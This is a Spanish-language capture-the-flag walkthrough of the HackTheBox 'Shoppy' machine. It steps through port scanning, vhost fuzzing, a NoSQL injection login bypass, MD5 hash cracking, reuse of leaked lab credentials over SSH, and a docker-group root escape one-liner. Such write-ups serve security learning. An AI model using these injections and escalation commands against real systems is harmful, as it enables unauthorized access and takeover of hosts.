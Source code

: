 # Shoppy HTB


Primero que nada nos damos cuenta que tiene 3 puerto abiertos

```
nmap -sSV --open -vvv IP
nmap -sC -p 22,80,9093 IP
```

Esto re direcciona a shoppy.htb lo cual nos da indicios de que podria utilizar vhosting

# Fuzzing

```
wfuzz -c --hc=404,301 -t 200 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  http://shoppy.htb/FUZZ 
```


# Vhost Discovery

Virtual hosting es la capacidad de tener varios subdominos ( *.example.com ) en un mismo servidor 

>El virtualhost, o servidor virtual, es una forma de alojamiento web que permite que varias páginas web puedan funcionar en una misma máquina. Hay dos tipos de virtualhost:

Los que se basan en direcciones IP, donde cada página web tendrá una IP diferente.
***Los que se basan en nombres de dominio, donde una sola dirección IP funcionan varias páginas web.***

Aunque el navegador tendrá que diferenciar el tipo de virtualhost a la hora de gestionar la petición, la elección de una u otra no tiene ningún efecto para el usuario.

## WFUZZ

Para encontrar subdominios cuando sospechamos que se esta usando esta tecnica se fuzzea la header Host en busca de un resultado valido lo que indica un subdominio

```

wfuzz -c --hc=404,301 -t 200 -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.shoppy.htb" http://shoppy.htb/ 

```

## Gobuster

```
gobuster vhost -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 500 -u http://shoppy.htb 
Funciona tambien asi 
gobuster vhost -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 500 -u shoppy.htb
Tambien asi solo lee bien el output
gobuster vhost -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50 -u shoppy.htb 
```

Encontramos un logging

# No SQL Inyection

De alguna u otra manera ( la cual no entiendo aun) nos dimos cuenta que es una base de datos No SQL MongoDB intentamos unos payloads sencillos.

```
admin'||'1==1
admin'||'1=1
```

Y cualquiera de esos jala. Entramos


# Hash

Ya dentro pues si estas con el usuario admin lo mas logico es que buscaras ese no¿?

```
EL password del usuario admin
hash-identifier
john --format=raw-md5 -w $(locate rockyou.txt)  hashes

admin
emerald 

```

Pero que crees si vuelves a probar una inyeccion te manda no solo el hash de admin si no un usuario josh

```
josh 

remembermethisway

```

## Intrucion

Entramos con el usuario josh al subdominio que encontramos

> http://mattermost.shoppy.htb/shoppy/channels/deploy-machine

Ahi nos damos cuenta que existe un user y pass iniciamos sesion ssh.

```
username: jaeger
password: Sh0ppyBest@pp!
```


Se necesita enumerar los usuarios nos damos cuenta que esta un usuario deploy 

```
sudo -l

```

Ahi nos damos cuenta que comandos se pueden correr podemos correr una password manager como el usuario deploy sin password y sin cambiar de usuaro
hacemos cat en el archivo y nos damos cuenta que el usuario es Sample

```
sudo -u deploy /home/deploy/password-manager
Sample
username: deploy
password: Deploying@pp!

```

## .. / docker

This requires the user to be privileged enough to run docker, i.e. being in the docker group or being root.

Any other Docker Linux image should work, e.g., debian.

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
Con lo anterior tenemos al usuario root y completamos la maquina.

















































